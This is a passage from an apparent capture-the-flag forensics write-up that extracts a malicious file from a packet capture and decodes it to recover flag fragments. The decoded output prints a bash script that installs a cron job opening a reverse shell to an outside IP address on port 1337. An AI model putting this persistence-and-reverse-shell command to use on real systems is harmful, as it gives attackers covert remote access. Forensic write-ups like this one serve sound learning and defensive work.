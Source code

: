 Going back to the pcap, the malicious file `data.bin` can be extracted via HTTP objects.

![jenkins3](/assets/posts/l3akctf2024/jenkins3.png)

The `data.bin` file shows a base58 encoded string. Decoding it shows a cron job where the job name was another part of the flag encoded in base64 `E_30d84d801b2947f1bd2faae4fdcbb926}`.

```
└─$ echo "QMSKuQ1jyJEwJYVQPQNGfTdsjT1dbfPBxU1kCuYTwUZC552VDJdFC3NNY6cy5hEm1hAEQn31sJH6VRtknUWjTMyRT5Q4swp71q6QfLX3wCLrgfiDYXGeim49bUpgbSdDfc2EZbgBhBeL8tC2GrPogAAVN1BQ14pEVDm7TzsFNUqvLjLk7M6vY9UsemS1m4AzVshZCSs6sY31f5UCkYC6BbvWUrqFeab5m5DCxZFroHHuCKu6yQQA4BJeASiicfoktdUWHtQeszxuQi6HXBQGytZ5mtGSbbhn2UZngWENU6ESZVLrG3siwz3uFCQw71H78Q29YXgqZb6sv4uDhS95YV3ae8DKLMwrm5c9wWuhM24" | base58 -d
#!/bin/bash
job_name="RV8zMGQ4NGQ4MDFiMjk0N2YxYmQyZmFhZTRmZGNiYjkyNn0="
script_path="/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.222.151/1337 0>&1'"
cron_schedule="0 5 * * *"
(crontab -l 2>/dev/null; echo "$cron_schedule $script_path # $job_name") | crontab -
```

Finding the last part of the flag was tough, but going through the TCP and WebSocket streams again, I noticed the `credential.xml` file stores the encrypted user password that might be the flag.
